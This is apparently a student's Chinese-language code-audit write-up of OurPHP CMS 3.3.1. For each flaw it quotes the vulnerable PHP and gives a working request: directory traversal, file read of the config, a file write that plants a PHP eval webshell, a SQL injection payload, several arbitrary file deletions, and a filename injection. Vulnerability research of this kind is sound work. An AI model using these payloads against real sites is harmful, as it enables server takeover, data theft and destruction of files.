



# OurPHP3.3.1审计与测试


## 目录遍历漏洞

还是先看一下后台关于模板的代码，首先发现对于传入的路径没有做waf，导致了目录遍历。

漏洞从client/manage/ourphp_filebox.php`的第134行开始：

```php
}else{

    if(empty($_SESSION['ourphp_out']))
    {
        $file = listDirFiles('../../templates/'.$_GET['path']);
        $file2 = '../../templates/'.$_GET['path'];
    }else{
        $file = listDirFiles('../../'.$_GET['path']);
        $file2 = '../../'.$_GET['path'];  
    }


    if(isset($_GET['dir']))
    {
        foreach ($file as $op) {
            if(!strstr($op,".")){
                $list .= '
                <li>
                        <a href="?path='.$_GET['path'].'/'.$op.'&dir"><p>'.$op.'<br /><span>'.filearray($op).'</span></p></a>
                </li>
                ';
            }
            if(strstr($op,".html") || strstr($op,".css") || strstr($op,".js") || strstr($op,".php") || strstr($op,".htaccess")){

                $format = format($op);
                $list .= '
                <li>
                        <a href="?path='.$file2.'/'.$op.'&edit"><p>'.$op.'<br /><span>'.filearray($op).'</span></p></a>
                </li>
                ';
            }
            if(strstr($op,".jpg") || strstr($op,".jpeg") || strstr($op,".png") || strstr($op,".gif")){
                $list .= '
                <li>
                        <a href="'.$file2.'/'.$op.'" target="_blank"><p>'.$op.'<br /><span>'.filearray($op).'</span></p></a>
                </li>
                ';
            }
        }
    }
```

`listDirFiles`函数的作用就是得到这个目录下的所有文件夹和文件。然后如果传入了`$_GET['dir']`，就会把没有点的，还有存在特定后缀的文件给打印出来，基本涵盖了大部分的文件，存在目录遍历：




## 任意文件读取

还是模板这样对于传入的path没有做任何的限制导致的，漏洞开始于`client/manage/ourphp_filebox.php`函数的第175行：

```php
    if(isset($_GET['edit']))
    {
        if(isset($_GET['path'])){
            $openfile = file_get_contents($_GET['path']);
            $openfile = str_replace("<textarea", "<ourphp_", $openfile);
            $openfile = str_replace("</textarea>", "</ourphp_>", $openfile);
            $list = '
            <form id="form1" name="form1" method="post" action="?path=edit&ok">
                <div class="boxedit">
                        <textarea id="code" name="code">'.$openfile.'</textarea>
                </div>
                <div class="boxok">

                    <p><a href="#"" onClick=window.open("tags.php","go","scrollbars=0,resizable=0,scrollbars=yes,width=1300,height=500,left=150,top=150,screenX=50,screenY=50")>在新窗口中弹出模板标签</a></p>
                    <p><a href="#"" onClick=window.open("ourphp_column.php?id=ourphp","go","scrollbars=0,resizable=0,scrollbars=yes,width=1300,height=500,left=150,top=150,screenX=50,screenY=50")>在新窗口中弹出栏目管理</a></p>
                    <p class="mt-50">
                    <input type="submit" name="Submit" value="保存代码" class="an" />
                    </p>
                </div>
                <input type="hidden" value="'.$_GET['path'].'|'.MD5($_GET['path'].$ourphp['safecode']).'" name="md">
            </form>
                <script id="script">
                var editor = CodeMirror.fromTextArea(document.getElementById("code"), {
                    lineNumbers: true,
                    ineWrapping: true,
                    mode: "markdown"
                });
                </script>
            ';
        }
    }
```

非常明显的：

```php
            $openfile = file_get_contents($_GET['path']);
            $openfile = str_replace("<textarea", "<ourphp_", $openfile);
            $openfile = str_replace("</textarea>", "</ourphp_>", $openfile);
```

直接读：

```
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path=../../../../../../../../../../../../../../../../flag&edit
```


## 任意文件写入1

还是模板这里，漏洞开始于`client/manage/ourphp_filebox.php`函数的第205行：

```php
    if(isset($_GET['ok']))
    {
        if(empty($_POST['code']) || empty($_POST['md'])){
           $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">不能为空呀！</h1>';
        }
        $md = explode("|", $_POST['md']);
        $md2 = MD5($md[0].$ourphp['safecode']);
        if($md[1] != $md2){
            $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">验证不通过呀！</h1>';
        }

        $code = $_POST['code'];
		if(get_magic_quotes_gpc())
		{
			$code = stripslashes($code);
		}
        $code = str_replace("<ourphp_", "<textarea", $code);
        $code = str_replace("</ourphp_>", "</textarea>", $code);

        if(empty($_SESSION['ourphp_out']))
        {
            
            
            if(stristr($code,"<?php") || stristr($code,"<%") || stristr($code,"language=\"php\"") || stristr($code,"language='php'") || stristr($code,"language=php") || stristr($code,"<?=") || stristr($md[0],".php") || stristr($md[0],".asp") || stristr($md[0],".aspx") || stristr($md[0],".jsp") || stristr($md[0],".htaccess") || stristr($md[0],".ini") || stristr($md[0],".user.ini"))
            {
                $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">不要提交违法代码！</h1>';
            }else{

                $filego = fopen($md[0],'w');
                fwrite($filego,$code);
                fclose($filego);

                $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">编辑成功！</h1>';

            }

        }else{
            

            if(stristr($md[0],".asp") || stristr($md[0],".aspx") || stristr($md[0],".jsp") || stristr($md[0],".htaccess") || stristr($md[0],".ini") || stristr($md[0],".user.ini"))
            {
                $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">不要提交违法代码！</h1>';
            }else{

                $filego = fopen($md[0],'w');
                fwrite($filego,$code);
                fclose($filego);

                $list = '<h1 style="float:left; margin-top:30px; padding-bottom:30px; font-size:20px; width:100%; text-align:center;">编辑成功！</h1>';

            }

        }

    }
```

可以发现`$_POST['md']`就是要写入的文件名，`$_POST['code']`就是要写入的内容，然后会经过一次`if(empty($_SESSION['ourphp_out']))`的判断进入2种处理方式，如果这个`$_SESSION['ourphp_out']`为空的话，进行的就是很严格的过滤：

```php
if(stristr($code,"<?php") || stristr($code,"<%") || stristr($code,"language=\"php\"") || stristr($code,"language='php'") || stristr($code,"language=php") || stristr($code,"<?=") || stristr($md[0],".php") || stristr($md[0],".asp") || stristr($md[0],".aspx") || stristr($md[0],".jsp") || stristr($md[0],".htaccess") || stristr($md[0],".ini") || stristr($md[0],".user.ini"))
```

没法写马。但是如果进入的是else，就是没什么用的过滤，可以轻松写马：

```php
            if(stristr($md[0],".asp") || stristr($md[0],".aspx") || stristr($md[0],".jsp") || stristr($md[0],".htaccess") || stristr($md[0],".ini") || stristr($md[0],".user.ini"))
```

因此需要给`$_SESSION['ourphp_out']`赋值。看一下这个的由来，是在当前这个php文件的前面：

```php
$v = (empty($_GET['validation']))? "0" : $_GET['validation'];
$c = (empty($_GET['code']))? "0" : $_GET['code'];
pw($v,$c);
if(isset($_GET['out'])){
    unset($_SESSION['ourphp_out']);
}
```

然后是`pw`函数：

```php
function pw($a,$b)
{
    global $db,$ourphp;
    session_start();
    if ($a == $ourphp['validation'] && $b == $ourphp['safecode']){
         
        $_SESSION['ourphp_out'] = "ourphp";
        
    }else{

        if(empty($_SESSION['ourphp_out']))
        {
            include 'ourphp_checkadmin.php';

        }else{

            session_start();

        }

    }
}
```

需要`if ($a == $ourphp['validation'] && $b == $ourphp['safecode']){`。前一个登录后台的时候需要，既然目前是在后台的模板功能上，因此前一个已经知道了，后一个的话就需要利用到上面的任意文件读取，读一下配置文件：

```php
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path=../../config/ourphp_config.php&edit
```

就可以得到了，这样就可以成功写马：

```php
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path&ok&code=TW3fJCk9hqwwUBfcKnFbgpHxQqjRQE1dk9hqww&validation=1

code=<?php eval($_POST[0]);?>&md=../../1.php
```


## SQL注入1（update注入）


漏洞位于`client/manage/ourphp_adview.php`，从第11行开始：

```php
if(isset($_GET["ourphp_cms"]) == ""){
	echo '';
}elseif ($_GET["ourphp_cms"] == "edit"){

	if (!empty($_POST["OP_Adclass"])){
		$OP_Adclass = implode(',',$_POST["OP_Adclass"]);
	}else{
		$OP_Adclass = '';
	}

	$query = $db -> update("`ourphp_ad`","`OP_Adcontent` = '".admin_sql($_POST["OP_Adcontent"])."',`OP_Adclass` = '".$OP_Adclass."',`time` = '".date("Y-m-d H:i:s")."'","where id = ".intval($_GET['id']));
	$ourphp_font = 1;
	$ourphp_class = 'ourphp_ad.php?id=ourphp';
	require 'ourphp_remind.php';
			
}
```

传`$_GET['ourphp_cms']='edit'`，然后注意下面的SQL语句：

```php
$query = $db -> update("`ourphp_ad`","`OP_Adcontent` = '".admin_sql($_POST["OP_Adcontent"])."',`OP_Adclass` = '".$OP_Adclass."',`time` = '".date("Y-m-d H:i:s")."'","where id = ".intval($_GET['id']));
```

注意到`$OP_Adclass`是通过POST传参然后`implode`而来的，没有经过任何的过滤，因此存在SQL注入：

```php
http://www.ourphp331.com/client/manage/ourphp_adview.php?ourphp_cms=edit&id=1

OP_Adclass[]=',`OP_Adclass` =(select substr(group_concat(table_name)1,32) from information_schema.tables where table_schema=database()) where id = 1%23
```




## 任意文件删除1

漏洞位于`client/manage/ourphp_bakgo.php`，位于数据库备份功能。

关键代码在524行-529行：

```php
		//删除多余文件
		if($_POST[filedeled]==1){
			for(@reset($_POST["dfile"]);@list($key,$val)=@each($_POST["dfile"]);){
				if($val) unlink($val);
			}
			unset($_POST["dfile"]);
		}
```

可以看到只要可以代码执行到这里，将会直接对`$_POST['dfile']`这个数组的值所指向的文件进行删除。

看一下怎么样才可以执行到这里。

首先这里会断：

```php
eval(frameset_html().postvars_function());
```

```php
//frame 分开标题
function frameset_html(){
	global $_POST;
	return "if(!\$_GET[framename]){
```

所以get传个`framename`。之后还需要传这个，因为关键代码是在这个if中：

```php
if($_POST['action']=="databackup"){
```

同理还要有这个：

```php
	if($_POST[back_type]=="partsave"): ////////////////////////   Save Data ////////////////////////////

```

还有这里:

```php
		if(!is_dir("$_POST[dir]") and !@mkdir("$_POST[dir]",0777)){
			fheader();echo "<BR><BR><center>目录'$_POST[dir]'不存在且不能自动创建！请检查目录权限（权限为 777 方可写文件）。</center><BR><BR>";ffooter();exit;
		}
		@chmod("$_POST[dir]",0777);
```

随便创建个目录即可。然后就可以任意文件删除了。

```
POST /client/manage/ourphp_bakgo.php?framename=1

action=databackup&back_type=partsave&filedeled=1&dfile%5B%5D=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag&dir=..%2F..%2Ffunction%2Fbackup%2F2021060820
```


## 任意文件写入2（linux）

考虑到数据库备份这个功能中有许多对文件操作的函数，因此继续往下看，从618行开始：

```php
// 开始导出一页
$writefile_data = "<?php\r\nif(!defined('VERSION')){echo \"<meta http-equiv=refresh content='0;URL={$_POST[filename]}.php'>\";exit;}\r\n";

$tablearr=array();
for(@reset($_POST[fsqltable]);count($_POST[fsqltable])&&@list($key,$val)=@each($_POST[fsqltable]);) {
	$tablearr[]=$key;
}

for($i=$_POST[tabledumping];$i<count($tablearr);$i++){
	sqldumptable($tablearr[$i],$i,1);  //导出表
}

//结束最后文件
$data="echo '<center><BR><BR><BR><BR>完成。所有数据都已经导入数据库中。</center>'; exit; ?".">";
$writefile_data .= "$data";
writefile($writefile_data,"w");
```

可以看到`$_POST[filename]`直接拼接到了`$writefile_data`，没有经过任何的过滤。

跟进下面的`writefile`函数：

```php
		function writefile($data,$method='w'){
			global $fsqlzip,$_POST;;
			$file = "{$_POST[filename]}_pg{$_POST[page]}.php";
			$fp=fopen("$_POST[dir]/$file","$method");
			flock($fp,2);
			fwrite($fp,$data);
		}
```

可以看到存在一个任意文件写入，写入的文件名和内容都可控。只不过因为`$_POST[filename]`不仅在文件名中，也在写入的内容中，因此使得文件名存在特殊字符，在windows上不行，在linux上可以成功写入：

```
POST /client/manage/ourphp_bakgo.php?framename=1

action=databackup&back_type=partsave&dir=..%2F..%2Ffunction%2Fbackup%2F2021060820&filename='";phpinfo();//&page=1
```

也懒得在linux上搭环境测试了，师傅们感兴趣的可以自行测试。


## 任意文件删除2

漏洞位于`client/manage/ourphp_banner.php`，我根据这个CMS中类似这样逻辑的功能可能还有几个，所以可能还有几个这样类似的任意文件删除。

从38行开始：

```php
}elseif ($_GET["ourphp_cms"] == "del"){

	if (strstr($OP_Adminpower,"35")){

		$ourphp_rs = $db -> select("`OP_Bannerimg`","`ourphp_banner`","where id = ".intval($_GET['id']));
		if($ourphp_rs[0] != ''){
			include './ourphp_del.php';
			ourphp_imgdel($ourphp_rs[0]);
		}
```

跟进`ourphp_imgdel`：

```php
function ourphp_imgdel($minimg = '',$maximg = '',$imgimg = ''){
	global $db;

	$ourphp_rs = $db -> select("`OP_Webfile`","`ourphp_webdeploy`","where id = 1");
	if($ourphp_rs[0] == 2){
		
		if($minimg != ''){
			if(strpos($minimg,"function/uploadfile") > 0){
				if (file_exists('../../'.$minimg)){
					unlink('../../'.$minimg);
				}
			}else{
				echo '';
			}
		}
```

注意到的`unlink('../../'.$minimg);`。这个`$minimg`是`$ourphp_rs[0]`，是从数据库中查出的。尚且不谈后台有一个执行任意SQL语句的东西。这个`$ourphp_rs[0]`也是有功能来修改的。

攻击：

先添加个banner:

```
POST /client/manage/ourphp_banner.php?ourphp_cms=add

OP_Bannerlang=cn&OP_Bannertitle=1&OP_Bannertext[]=&OP_Bannertext[]=&OP_Bannertext[]=&OP_Bannerimg=../function/uploadfile/../../../../../../../../../../../../../../../../../../../../../flag&OP_Bannerurl=http://&OP_Bannerclass=0&submit=%E6%8F%90+%E4%BA%A4
```


然后删除即可：

```
http://www.ourphp331.com/client/manage/ourphp_banner.php?ourphp_cms=del&id=8
```

这个id通过看一下插入的这个banner的序号即可。




即可实现任意文件删除。


## 任意文件删除3

这个CMS的文件有点多，就不太想一个一个细看了，直接拿Seay扫着看了，可能会遗漏一些洞，但是主要还是学习代码审计叭。今天也把这个CMS结束掉，不看这个了。

漏洞位于`client/manage/ourphp_imgdel.php`的开头：

```php
$imgdel = $_GET["url"];
if(strpos($imgdel,"function/uploadfile") > 0){
	
	if(file_exists($imgdel)){
		
		$result=unlink($imgdel);
		echo '1';
		
	}
	
}
```

太明显了不分析了：

```
http://www.ourphp331.com/client/manage/ourphp_imgdel.php?url=./function/uploadfile/../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../1.txt
```


## 总结

这个CMS就到这里了，不太想继续看下去了，还有很多个功能没看，也不太想看了，接下来再去看另外一个CMS了，审完就去期末复习了。

这种小型CMS基本上代码逻辑不太行，没啥防护，所以很容易审出东西，很适合像我这样的新手来练练手。但是审多了就感觉都是因为0过滤的东西，挖不到什么新的，也就学习不到新的思路了，等期末考试结束之后再开始选难一点的CMS来学习审计了。


